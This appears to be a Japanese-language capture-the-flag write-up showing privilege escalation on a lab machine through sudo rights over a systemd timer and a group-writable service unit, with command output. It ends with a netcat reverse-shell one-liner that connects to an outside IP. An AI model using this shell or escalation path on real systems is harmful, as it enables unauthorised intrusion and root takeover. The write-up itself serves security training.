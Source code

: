 # sudoの設定不備をついて権限昇格
- sudo -lを確認するとrootで実行しているサービスが見つかる

```
​sudo -l
Matching Defaults entries for serv-manage on vulnnet-node:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User serv-manage may run the following commands on vulnnet-node:
    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload
locate vulnnet-auto.timer
/etc/systemd/system/vulnnet-auto.timer
cat /etc/systemd/system/vulnnet-auto.timer
[Unit]
Description=Run VulnNet utilities every 30 min

[Timer]
OnBootSec=0min
# 30 min job
OnCalendar=*:0/30
Unit=vulnnet-job.service

[Install]
WantedBy=basic.target
locate vulnnet-job.service
/etc/systemd/system/vulnnet-job.service
   
cat /etc/systemd/system/vulnnet-job.service
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
ExecStart=/bin/df

[Install]
WantedBy=multi-user.target
```

- serv-manageに書き込み権限が付与されている
```
ls -al /etc/systemd/system/vulnnet-job.service
-rw-rw-r-- 1 root serv-manage 197 Jan 24  2021 /etc/systemd/system/vulnnet-job.service
```

- reverseshellを作成(履歴消えたので結果のみ表示)
```
serv-manage@vulnnet-node:/tmp/tmp.45XOApCBKe$ cat /tmp/reverse.sh
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.1.82 4321 >/tmp/f

```
